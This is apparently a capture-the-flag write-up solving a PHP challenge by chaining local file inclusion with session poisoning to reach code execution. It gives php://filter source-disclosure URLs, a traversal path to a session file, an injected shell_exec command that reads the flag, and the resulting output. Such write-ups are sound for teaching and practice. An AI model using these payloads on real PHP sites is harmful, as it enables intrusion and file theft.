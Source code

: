 * Category
  * Local File Inclusion
  * PHP Session Poisoning
* Solution
  1. How to get source code?
     * Use the same technique as [喵 site](../喵%20site/README.MD) to retrieve ```home.php``` , ```list.php``` , ```post.php``` , ```index.php```
  2. LFI can further be leveraged to find session file
     * session id can be retrieved from ```phpinfo``` or cookie
  3. The php command in session file will be executed
     * Include the command by server's api ```post.php```
     * And then use LFI to view the session file again to see the result
* Payload
  1. ```http://splitline.tw:8401/?module=php://filter/convert.base64-encode/resource=module/home.php```
  2. ```http://splitline.tw:8401/?module=php://filter/convert.base64-encode/resource=module/list.php```
  3. ```http://splitline.tw:8401/?module=php://filter/convert.base64-encode/resource=module/post.php```
  4. ```http://splitline.tw:8401/?module=php://filter/convert.base64-encode/resource=index.php```
  5. ```http://splitline.tw:8401/?module=../../../tmp/sess_06010ee6594de0614e832c41430f6bad```
     * ```notes|a:2:{i:0;s:3:"123";i:1;s:3:"123";}```
  6. ```<?php echo shell_exec("cat ../../../flag_aff6136bbef82137"); ?>```
     * ```notes|a:8:{i:0;s:3:"123";i:1;s:3:"123";i:2;s:43:" Warning: shell_exec(): Cannot execute a blank command in /tmp/sess_06010ee6594de0614e832c41430f6bad on line 1 ";i:3;s:32:"/var/www/html ";i:4;s:41:"bin boot dev etc flag_aff6136bbef82137 home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var ";i:5;s:62:"../../../flag_aff6136bbef82137 ";i:6;s:63:"";i:7;s:63:"FLAG{include(LFI_to_RCE)}";}```
* ```FLAG{include(LFI_to_RCE)}```